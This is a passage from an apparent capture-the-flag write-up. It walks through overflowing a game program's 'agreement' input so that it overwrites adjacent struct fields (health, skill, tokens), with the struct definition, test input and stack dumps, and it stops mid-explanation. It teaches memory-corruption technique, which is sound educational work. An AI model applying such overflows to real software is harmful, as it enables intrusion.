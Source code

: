 ```
> NOTE: (```1094795585``` is the decimal for ```0x41414141```) <br> <br>

It looks like we can control ```player.health``` values by ```agreement```! <br> <br>

# Solution

Now, take a look at the struct again: <br>
{% highlight c %}
struct character {
    int health; // This field is 4 bytes long
    int skill; // This field is 4 bytes long
    long tokens; // This field is 8 bytes long
    string name; // This field is whatever bytes long (Seriously, check this out: https://shaharmike.com/cpp/std-string/)
};
{% endhighlight %}
In order to understand how values are handled, we're going to input just enough to fill (when prompted for the agreement):
- ```int character.health``` <br>
- ```int character.skill``` <br>
- ```long character.tokens```. <br>

So, 16 bytes, 16 chars. (Actually, 15 + ```\x00```) <br>
Therefore, our input will be something recognizable and 15 chars long: <br>
```AAAABBBBCCCCDDD```, which is: ```0x41414141 0x42424242 0x43434343 0x00444444``` (remember? architecture is ```amd64-64-little```!)<br>

Now let's look at the stack:
```
0x7fffffffdf10: 0xffffdf20      0x00007fff      0x0000000f      0x00000000
0x7fffffffdf20: 0x41414141      0x42424242      0x43434343      0x00444444
0x7fffffffdf30: 0xffffdf40      0x00007fff      0x00000000      0x00000000
0x7fffffffdf40: 0xffffdf00      0x00007fff      0x55555140      0x00005555
0x7fffffffdf50: 0x00000000      0x00000000      0x733bfa00      0x8f838232
0x7fffffffdf60: 0x55556082      0x00005555      0x00000000      0x00000000
0x7fffffffdf70: 0xffffdfc0      0x00007fff      0x55555856      0x00005555
0x7fffffffdf80: 0xffffdf90      0x00007fff      0x00000001      0x00000000
0x7fffffffdf90: 0x00000031      0x00000000      0x00000000      0x00000000
```
> NOTE: You can see our input at address ```0x7fffffffdf20```
<br> <br>

In order to proceed further, we must input ```yes```, and so we do. <br>
```
0x7fffffffdf10: 0xffffdf20      0x00007fff      0x0000000f      0x00000000
0x7fffffffdf20: 0x00736579      0x42424242      0x43434343      0x00444444
0x7fffffffdf30: 0xffffdf40      0x00007fff      0x00000000      0x00000000
0x7fffffffdf40: 0xffffdf00      0x00007fff      0x55555140      0x00005555
0x7fffffffdf50: 0x00000000      0x00000000      0x733bfa00      0x8f838232
0x7fffffffdf60: 0x55556082      0x00005555      0x00000000      0x00000000
0x7fffffffdf70: 0xffffdfc0      0x00007fff      0x55555856      0x00005555
0x7fffffffdf80: 0xffffdf90      0x00007fff      0x00000001      0x00000000
0x7fffffffdf90: 0x00000031      0x00000000      0x00000000      0x00000000
```
> Note: ```yes``` bytes (```\x00\x73\x65\x79```) overridden the first four As. <br> <br>
<br> <br>

It prompts for the signature, our name and the action, we enter ```EEEE``` (```0x45454545```), ```FFFF``` (```0x46464646```), and ```GGGG``` (```0x47474747```) respectively. <br>
It says  <br>
> Welcome, FFFF. Skill level: 1111638594 <br> <br>

> NOTE: (```1111638594``` is the decimal for ```0x42424242```) <br> <br>

The stack: <br>
```